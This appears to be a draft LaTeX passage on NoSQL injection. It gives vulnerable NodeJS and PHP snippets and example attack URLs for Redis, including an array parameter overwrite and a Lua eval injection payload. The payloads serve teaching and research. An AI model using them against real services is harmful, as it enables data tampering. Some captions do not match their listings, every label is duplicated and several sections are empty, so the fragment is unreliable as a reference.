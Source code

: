 \begin{lstlisting}[caption={MongoDB injection with NodeJS's query string module}, label={lst:PHPArrayInjection}]
https://example.org/login?user=admin&password=1234;
\end{lstlisting}

\subsection{Script Injection}




\section{Redis Key-Value Store}
\subsection{Parameter Overwrite Injection}

\begin{lstlisting}[caption={Vulnerable NodeJS example for parameter overwrite injection on Redis}, label={lst:PHPArrayInjection}]
RedisClient.expireat(req.query.key, new Date("November 8, 2026 11:13:00").getTime());
\end{lstlisting}

\begin{lstlisting}[caption={Attack vector on Redis for query selector injection via HTTP GET}, label={lst:PHPArrayInjection}]
https://example.org/expire?key[]=foo&key[]=1117542887
\end{lstlisting}


\subsection{Lua Script Injection}
\begin{lstlisting}[caption={Vulnerable PHP example for Lua script injection on Redis}, label={lst:PHPArrayInjection}]
$redis->eval("return redis.call('get', '$key')", 0);
\end{lstlisting}

\begin{lstlisting}[caption={Attack vector on Redis for query selector injection via HTTP GET}, label={lst:PHPArrayInjection}]
https://example.org/lua.php?key=')%20or%20redis.call('set'%2C%20'foo'%2C%20'bar')%20--
\end{lstlisting}

\section{CouchDB Document Store}

